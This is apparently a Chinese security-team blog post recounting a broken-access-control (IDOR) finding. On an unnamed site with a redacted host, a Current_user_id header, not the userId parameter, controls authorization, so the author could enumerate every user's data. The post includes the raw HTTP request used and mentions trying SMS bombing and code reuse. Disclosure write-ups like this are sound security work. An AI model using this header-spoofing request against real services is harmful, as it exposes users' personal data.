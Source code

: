 #  记一次越权漏洞   
原创 Fengge233  Tsia安全团队   2025-04-30 09:35  
  
开局一个手机号登陆出，没别的功能。提取接口都有鉴权。  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9vaSeXkcPUSVibI2v69hCXjzS6lict5yhJlZFBZJBHmlxibicsCjgjl7D2920AlosLuN4RJH2YYrBOn5NuXbQRsDXw/640?wx_fmt=png&from=appmsg "")  
测试短信轰炸，验证码复用，绑定漏洞也不行。但是用自己手机号登录后有一个接口有点奇怪，测了下可以遍历全站所有用户的信息，是用Current_user_id做用户权限校验的，上面的usserId是个幌子。```
GET /api/user/getUserInfo?userId=64370 HTTP/1.1
Host: :8085
Sec-Ch-Ua-Platform: "Windows"
Current_user_id: 64371
Sec-Ch-Ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Userapi-Validate-Appid: jtpt03
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9vaSeXkcPUSVibI2v69hCXjzS6lict5yhJbH0QsTPt5x6u12LPzkssbS2aNK5Xu3pmiaI1V0b8ibDOEk0c1wricBJvA/640?wx_fmt=png&from=appmsg "")  
  
  
